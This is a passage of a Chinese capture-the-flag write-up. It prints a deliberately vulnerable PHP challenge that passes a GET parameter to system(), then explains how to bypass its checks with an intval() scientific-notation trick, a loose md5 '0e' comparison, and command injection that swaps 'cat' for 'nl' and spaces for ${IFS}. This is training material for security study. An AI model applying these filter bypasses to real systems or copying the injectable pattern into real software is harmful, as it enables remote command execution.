   

   发现robots.txt,按提示访问后，在header里找到提示

   `look_at_me: /fl4g.php`

2. **代码审计**

   ```php
   <?php
   header('Content-type:text/html;charset=utf-8');
   error_reporting(0);
   highlight_file(__file__);
   
   
   //level 1
   if (isset($_GET['num'])){
       $num = $_GET['num'];
       if(intval($num) < 2020 && intval($num + 1) > 2021){
           echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
       }else{
           die("金钱解决不了穷人的本质问题");
       }
   }else{
       die("去非洲吧");
   }
   //level 2
   if (isset($_GET['md5'])){
      $md5=$_GET['md5'];
      if ($md5==md5($md5))
          echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
      else
          die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
   }else{
       die("去非洲吧");
   }
   
   //get flag
   if (isset($_GET['get_flag'])){
       $get_flag = $_GET['get_flag'];
       if(!strstr($get_flag," ")){
           $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
           echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
           system($get_flag);
       }else{
           die("快到非洲了");
       }
   }else{
       die("去非洲吧");
   }
   ?>
   ```

   * 第一步，根据intval()函数的特点，输入一个科学计数法的字符就可以绕过，即`?num=2e4`
   * 第二步是md5弱比较，直接左右为0e开头就行
   * 第三步是rce，cat可以替换为nl等，在执行ls命令后发现flag可能就在当前目录，直接读取就行，空格用${IFS}等代替就行

   

----

